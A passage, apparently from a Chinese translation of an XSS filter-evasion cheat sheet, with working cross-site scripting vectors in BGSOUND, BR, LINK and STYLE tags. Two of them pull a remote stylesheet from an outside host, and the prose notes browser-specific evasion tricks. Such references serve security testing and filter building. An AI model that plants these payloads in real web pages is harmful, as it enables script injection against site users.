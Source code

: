 ```
 103\. onUnload() (当用户点击一个链接或是按下回车键或是攻击者触发一个点击事件)
 104\. onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
 105\. seekSegmentTime() (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.) 
```

* * *

## BGSOUND(背景音乐)

```
<BGSOUND SRC="javascript:alert('XSS');"> 
```

* * *

## & JavaScript 包含

```
<BR SIZE="&{alert('XSS')}"> 
```

* * *

## 样式表

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');"> 
```

* * *

## 远程样式表

（通过某些方式例如最简单的远程样式表，你可以插入一个样式参数为嵌入表达式的 xss 代码）。它是仅仅工作在 IE 浏览器或是使用了 IE 渲染引擎的 Netscape 8.1+。需要注意的是页面中并没有展现出它包含了 javascript 代码。注意：所有的远程样式表示例需要至少用到 body 标签，负责将无法工作除非页面中包含除了向量本身的其他内容。因此你需要添加至少一个字母到页面确保他可以工作如果它是一个空白页面。

```
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css"> 
```

* * *

## 远程样式表 2

他的工作原理与上面相同。但是使用了 STYLE 标签代替 LINK 标签。榆次向量稍有不同的变异被用于攻击 Google Desktop。你可以移除</STYLE>标签当后面的 html 去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。

```
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE> 
```

